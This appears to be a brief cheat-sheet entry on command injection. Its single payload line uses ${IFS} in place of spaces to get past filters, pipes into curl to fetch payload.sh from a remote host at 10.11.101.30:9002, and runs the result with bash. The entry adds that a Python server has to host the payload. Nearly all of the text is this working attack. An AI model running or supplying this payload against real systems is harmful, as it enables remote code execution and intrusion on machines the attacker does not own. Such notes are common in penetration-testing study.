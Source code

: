 # Command Injection

Using curl:

```bash
|curl${IFS}http://10.11.101.30:9002/payload.sh|bash
```

${IFS} here is used like a space character. To make this work, you have to have a python server with the payload you want to execute.
